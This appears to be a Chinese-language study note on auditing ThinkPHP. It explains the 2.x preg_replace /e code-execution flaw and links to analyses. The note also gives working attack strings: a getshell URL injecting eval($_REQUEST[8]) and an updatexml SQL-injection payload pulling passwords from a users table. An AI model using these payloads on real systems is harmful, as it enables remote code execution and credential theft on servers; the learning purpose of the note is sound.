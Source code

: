 ```yaml
---
title: thinkphp框架
id: thinkphp框架
---
```


<!-- more -->

太久没学习了。。就打算学习一下thinkphp这个框架，简单跟着人家审计一下







# ThinkPHP 2.x 任意代码执行漏洞



- php版本<=5.6.29

- 成因是preg_replace()使用了修饰符/e匹配路由，导致用户的输入参数被插入双引号中执行，造成任意代码执行漏洞。

  ThinkPHP 3.0版本因为Lite模式下没有修复该漏洞，也存在这个漏洞。
  
  ```php
  #./ThinkPHP/Lib/Think/Util/Dispatcher.class.php:102: 
  $res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));
  ```
  

具体分析：

[ThinkPHP系列漏洞之ThinkPHP 2.x 任意代码执行 - FreeBuf网络安全行业门户](https://www.freebuf.com/sectool/223149.html)

[preg_replace的/e修饰符妙用与慎用 - WiFeng的博客 (521-wf.com)](https://521-wf.com/archives/45.html)

[PHP-Audit-Labs/README.md at master · hongriSec/PHP-Audit-Labs (github.com)](https://github.com/hongriSec/PHP-Audit-Labs/blob/master/Part1/Day8/files/README.md)

payload：

```
/index.php?s=/index/index/name/${phpinfo()}
```

getshell：

```
/index.php?s=/index/index/name/${eval($_REQUEST[8])}&&8=phpinfo();
```





# Thinkphp3

[ThinkPHP3.2.3完全开发手册](https://www.kancloud.cn/manual/thinkphp/1678)

> thinkphp3版本路由格式:
>
> ```
> http://serverName/index.php/模块/控制器/方法/参数
> ```

[ThinkPHP3.2.3SQL注入分析 - Pan3a - 博客园 (cnblogs.com)](https://www.cnblogs.com/Pan3a/p/14873308.html)

## Thinkphp3.2.3 SQL注入

### where

payload:

```
?id[where]=1 and 1=updatexml(1,concat(0x7e,(select password from users limit 1),0x7e),1)%23
```













